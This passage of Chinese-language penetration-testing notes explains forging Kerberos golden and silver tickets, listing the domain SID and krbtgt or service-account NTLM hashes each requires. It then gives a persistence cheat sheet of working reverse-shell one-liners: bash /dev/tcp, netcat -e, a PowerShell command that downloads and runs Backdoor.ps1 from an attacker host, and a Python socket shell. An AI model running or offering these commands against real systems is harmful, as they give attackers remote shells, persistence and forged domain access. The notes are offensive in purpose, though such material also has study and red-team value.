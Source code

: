 2、域的SID值(用户的sid值去掉最后一个杠的数字就是域sid值)

3、域的KRBTGT账号的HASH

4、伪造任意用户名

（获取域的SID和KRBTGT账号的NTLM HASH的前提是需要已经拿到了域的权限）

### 白银票据

白银票据就是伪造的ST。
在Kerberos认证的第三部，Client带着ST和Authenticator3向Server上的某个服务进行请求，Server接收到Client的请求之后,通过自己的Master Key 解密ST,从而获得 Session Key。通过 Session Key 解密 Authenticator3,进而验证对方的身份,验证成功就让 Client 访问server上的指定服务了。
所以我们只需要知道Server用户的Hash就可以伪造出一个ST,且不会经过KDC,但是伪造的门票只对部分服务起作

**所需条件:**

1.域名
2.域sid
3.目标服务器名
4.可利用的服务
5.服务账号的NTML HASH 
6.需要伪造的用户名

### 不同点

#### **获取的权限不同**:

金票：伪造的TGT，可以获取任意Kerberos的访问权限
银票：伪造的ST，只能访问指定的服务，如CIFS

#### **认证流程不同**

金票：同KDC交互，但不同AS交互
银票：不同KDC交互，直接访问Server

#### **加密方式不同**

金票：由krbtgt NTLM Hash 加密
银票：由服务账号 NTLM Hash 加密

## 权限维持

#### 1.反弹shell

```
nc
attackhost:nc -lvp 9999
target:/bin/bash -i &> /dev/tcp/192.168.0.198/9999 <&1

netcat
nc -e /bin/bash 192.168.0.198 9999

powershell
将ps1放到attackhost上
powershell.exe -exec bypass -c "IEX (New-Object Net.WebClient).DownloadString('http://192.168.0.1/Backdoor.ps1');Invoke-PowerShellTcp -Reverse -IPAddress 192.168.0.1 -port 9999

python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("192.168.0.1",9999));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
